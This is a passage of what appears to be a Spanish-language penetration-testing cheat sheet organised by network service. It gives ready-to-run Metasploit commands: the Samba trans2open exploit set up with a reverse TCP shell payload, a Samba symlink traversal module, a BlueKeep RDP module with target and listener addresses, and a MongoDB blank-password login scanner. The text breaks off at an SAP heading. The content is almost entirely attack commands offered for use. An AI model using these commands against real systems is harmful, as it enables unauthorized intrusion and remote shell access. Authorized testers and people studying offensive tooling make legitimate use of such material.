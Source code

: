 **Samba 2.2.X**
Las versiones de Samba 2.2.X suelen ser vulnerables a trans2open.

* Exploit
~~~bash
> use exploit/linux/samba/trans2open
> set VERBOSE true
> set PAYLOAD linux/x86/shell_reverse_tcp
> set LPORT 443
> set LHOST $(hostname -i)
~~~

* RHOSTS
~~~
services -p 445 -R
~~~

**Samba 3.4.5**
Symlink Directory Traversal
~~~
use auxiliary/admin/smb/samba_symlink/traversal
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">RDP - 3389</div>
</div>

**Bluekeep**

~~~bash
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce
set RHOST 192.168.1.100
set LHOST 192.168.1.150
run
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">MongoDB - 27017,27018</div>
</div>

[https://blog.rapid7.com/2016/07/28/pentesting-in-the-real-world-going-bananas-with-mongodb/](https://blog.rapid7.com/2016/07/28/pentesting-in-the-real-world-going-bananas-with-mongodb/)

**Auxiliares**

BD de mongo sin autenticación
~~~bash
> use auxiliary/scanner/mongodb/mongodb_login
> set BLANK_PASSWORDS true
~~~


**RHOSTS**
~~~bash
msf> services -p 27017,27018 -R
~~~

<h2>Otros servicios</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Entornos SAP</div>
</div>
